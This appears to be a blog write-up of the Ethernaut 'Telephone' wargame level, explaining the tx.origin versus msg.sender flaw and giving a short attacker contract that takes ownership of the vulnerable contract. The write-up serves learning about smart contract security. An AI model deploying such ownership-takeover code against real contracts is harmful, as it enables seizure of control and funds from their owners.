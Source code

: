 ```yaml
---
layout: post
title: Ethernaut - 4.Telephone
date:  2022-08-27
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌑🌑🌑🌑

> Claim ownership of the contract below to complete this level.<br />
  Things that might help<br /><br />
  See the Help page above, section "Beyond the console"

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Writeup
To complete this level, we need to claim ownership of the contract. 
The keypoint is the difference between` tx.origin` and `msg.sender`.

![](https://i.imgur.com/ktsMFfo.png)
1. Get new instance
2. Create a contract 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    interface Telephone {
        function changeOwner(address _owner) external;
    }

    contract AttackTelephone {
        Telephone public targets = Telephone(YOUR_LEVEL_INSTANCE_ADDRESS);

        function attackTelephone() public{
            targets.changeOwner(YOUR_ACCOUNT);
        }
    }
    ```
3. Compile & deploy .
4. Call attackTelephone function. In this scenario, `tx.origin` will be the victim's address while `msg.sender` will be the malicious contract ( AttackTelephone ) 's address. ( `tx.origin != msg.sender` == `true` )
5. Callthe method 
    ``` solidity

    await contract.owner().then(v => v.toString())
    
    ```
    to check owner if it is your account.
6. Submit instance ξ( ✿＞◡❛)


## Reference
[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)